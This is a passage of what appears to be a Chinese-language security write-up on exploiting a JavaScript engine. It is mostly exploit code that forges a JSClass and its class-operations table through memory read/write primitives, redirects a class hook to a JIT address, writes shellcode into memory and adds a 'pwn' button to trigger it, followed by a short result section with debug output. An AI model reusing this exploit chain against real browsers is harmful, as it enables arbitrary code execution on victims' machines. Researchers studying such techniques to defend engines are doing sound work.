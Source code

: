 ```

        fake_jsclass = new Float64Array(fake_jsclass_array);
        fake_cops = new Float64Array(fake_cops_array);

        fake_jsclass[0]=i2f(readptr(group_jsclass+0x0));//name
        fake_jsclass[1]=i2f(readptr(group_jsclass+0x8));//flags
        fake_jsclass[2]=i2f(readptr(group_jsclass+0x10));//cOps
        fake_jsclass[3]=i2f(readptr(group_jsclass+0x18));//spec
        fake_jsclass[4]=i2f(readptr(group_jsclass+0x20));//ext
        fake_jsclass[5]=i2f(readptr(group_jsclass+0x28));//oOps
        print("fake jsclass: "+hex(fake_jsclass_addr));
        print(fake_jsclass);

        cops_addr = f2i(fake_jsclass[2]);
        //cops copy
        for(let i =0;i&lt;12;i++)`{`
            fake_cops[i] = i2f(readptr(cops_addr+0x8*i));
        `}`
        print("fake cops: "+hex(fake_cops_addr));
        print(fake_cops);
        fake_jsclass[2] = i2f(fake_cops_addr);
        fake_cops[0] = i2f(jit_addr);

        shellcode_obj_addr = addrof(shellcode) ;
        shellcode_addr = readptr(shellcode_obj_addr+0x38) ;
        print(hex(shellcode_obj_addr));
        print(hex(shellcode_addr));



        for(let i=0;i&lt;sc.length;i++)`{`
            shellcode[i] = sc[i];
        `}`
        write64(group_addr,fake_jsclass_addr);
            document.body.innerHTML += '&lt;br&gt;&lt;input type="button" onclick="some(buf[7],shellcode_addr)" value="pwn"&gt;' ;


    `}`

    gen_fake_jsclass(buf7_group_addr);
`}`
```

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%95%88%E6%9E%9C"></a>利用效果

运行效果如下

[![](https://p2.ssl.qhimg.com/t0169a889a64eb27cc8.png)](https://p2.ssl.qhimg.com/t0169a889a64eb27cc8.png)


[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96